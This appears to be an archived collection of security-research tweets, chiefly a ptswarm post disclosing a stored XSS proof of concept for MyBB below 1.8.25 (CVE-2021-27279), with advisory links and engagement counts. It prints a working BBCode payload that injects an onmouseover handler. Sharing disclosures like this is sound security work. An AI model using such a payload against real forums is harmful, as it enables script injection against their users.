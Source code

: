 * https://github.com/jas502n/Grafana-VulnTips

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>43</code></td>
<td>Favorites: <code>138</code></td>
</tr></table>

---

# ptswarm
**https://twitter.com/ptswarm/status/1468213521666260994 _at 2021-12-07 13:39:16_**
<blockquote>
🎁 PoC for a stored XSS in MyBB &lt; 1.8.25 (CVE-2021-27279). The vulnerability was found by our researcher Igor Sak-Sakovskiy.

Payload: [email]a@a.a?[email=a@a.a? onmouseover=alert(1) a]a[/email][/email]

Advisory: https://t.co/i7v9mTie2p https://t.co/eHodNO7KZn
</blockquote>

* https://github.com/mybb/mybb/security/advisories/GHSA-6483-hcpp-p75w

<table><tr>
<td><img src="pictures/http+++pbs.twimg.com+media+FGARxdxXoAMnim_.jpg" alt="http://pbs.twimg.com/media/FGARxdxXoAMnim_.jpg"></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>68</code></td>
<td>Favorites: <code>197</code></td>
</tr></table>

---